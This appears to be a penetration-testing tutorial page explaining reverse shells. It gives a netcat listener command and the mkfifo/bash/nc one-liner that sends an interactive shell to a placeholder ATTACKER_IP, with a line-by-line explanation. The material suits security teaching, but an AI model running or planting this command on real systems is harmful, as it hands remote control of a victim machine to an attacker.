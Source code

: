 ```yaml
---
description: >-
  Reffered as "connect back shell" is one of the most popular techniques for
  gaining access to a system in cyberattacks.
---
```


# Reverse Shell

To setup a reverse shell, we need to setup first a `Netcat Listener` on the attackers machine

```sh
nc -lvnp <port>
```

* \-l means to way for connection
* \-v enable verbose mode
* \-n prevents connections from using DNS for lookup
* \-p idicates the port that will be used to wait connection



### To gain reverse shell access

{% code overflow="wrap" %}
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
{% endcode %}

* `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
* `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
* `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
* `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
* `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).
* `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.
